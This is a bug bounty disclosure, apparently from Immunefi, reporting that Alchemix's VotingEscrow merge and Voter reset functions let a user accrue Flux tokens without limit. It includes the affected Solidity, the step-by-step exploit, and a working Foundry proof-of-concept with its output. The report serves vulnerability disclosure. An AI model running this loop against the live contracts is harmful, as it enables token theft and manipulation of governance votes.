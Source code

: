 
# Users can get unlimited amounts of Flux tokens

Submitted on May 6th 2024 at 21:36:36 UTC by @imsrybr0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30825

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Users can get unlimited amounts of Flux tokens.

## Vulnerability Details
```solidity
// ...
contract VotingEscrow is IERC721, IERC721Metadata, IVotes, IVotingEscrow {
    // ...
    function merge(uint256 _from, uint256 _to) external {
        require(!voted[_from], "voting in progress for token");
        // ...
        IFluxToken(FLUX).mergeFlux(_from, _to);
        // ...
    }
    // ...
}
```

```solidity
// ...
contract FluxToken is ERC20("Flux", "FLUX"), IFluxToken {
    // ...
    function mergeFlux(uint256 _fromTokenId, uint256 _toTokenId) external {
        require(msg.sender == veALCX, "not veALCX");

        unclaimedFlux[_toTokenId] += unclaimedFlux[_fromTokenId];
        unclaimedFlux[_fromTokenId] = 0;
    }
    // ...
}
```

```solidity
// ...
contract Voter is IVoter {
    // ...
    function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        lastVoted[_tokenId] = block.timestamp;
        _reset(_tokenId);
        IVotingEscrow(veALCX).abstain(_tokenId);
        IFluxToken(FLUX).accrueFlux(_tokenId);
    }
    // ...
}
```

* The `VotingEscrow@merge` function only checks if the token being merged voted `yes`. It also merges the unclaimed Flux earnings of the merge tokens.
* The `Voter@reset` function :
  * Doesn't check if the given token id has any votes to reset before doing so.
  * Votes `no` on the `VotingEscrow`
  * Accrues Flux earning for the given token id

Under those conditions, a user can :
1) Start by locking an amount of tokens in `VotingEscrow` and get `Token ID N` in return
2) Call `Voter@reset` for `Token ID N` to accrue Flux earning for that token.
3) Lock a dust amount of tokens in `VotingEscrow` and get `Token ID M` in return
4) Call `VotingEscrow@merge` to merge `Token ID N` into `Token ID M` which will add the first token unclaimed Flux earning to the second one.

Steps 2), 3) and 4) can be repeated as needed carrying over unclaimed Flux earnings from the previous token to the next one and accruing them again.

## Impact Details
* Artificially boost voting power for gauges voting. 
* Claim Flux ERC20 tokens to :
  * Sell them
  * Use them to ragequit for free

## References
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol#L618-L651
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L183-L192
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol#L180-L185



## Proof of Concept
```solidity
    function testMergeFlux() public {
        uint256 previousTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
        console2.log("Starting Unclaimed Flux", flux.unclaimedFlux(previousTokenId));

        uint256 nextTokenId;

        vm.startPrank(admin);
        voter.reset(previousTokenId);

        console2.log("Unclaimed Flux after reset", flux.unclaimedFlux(previousTokenId));

        for (uint256 i; i < 10; i++) {
            nextTokenId = createVeAlcx(admin, 1, MAXTIME, true);

            veALCX.merge(previousTokenId, nextTokenId);

            voter.reset(nextTokenId);

            previousTokenId = nextTokenId;
        }

        console2.log("Unclaimed Flux after 10 iterations", flux.unclaimedFlux(nextTokenId));

        flux.claimFlux(nextTokenId, flux.unclaimedFlux(nextTokenId));

        console2.log("Flux ERC20 balance", flux.balanceOf(admin));
    }
```

## Results
```console
[⠒] Compiling...
Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testMergeFlux() (gas: 9703837)
Logs:
  Starting Unclaimed Flux 0
  Unclaimed Flux after reset 984526667926843455
  Unclaimed Flux after 10 iterations 10829793347195278005
  Flux ERC20 balance 10829793347195278005

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 32.92s (24.57s CPU time)

Ran 1 test suite in 34.78s (32.92s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```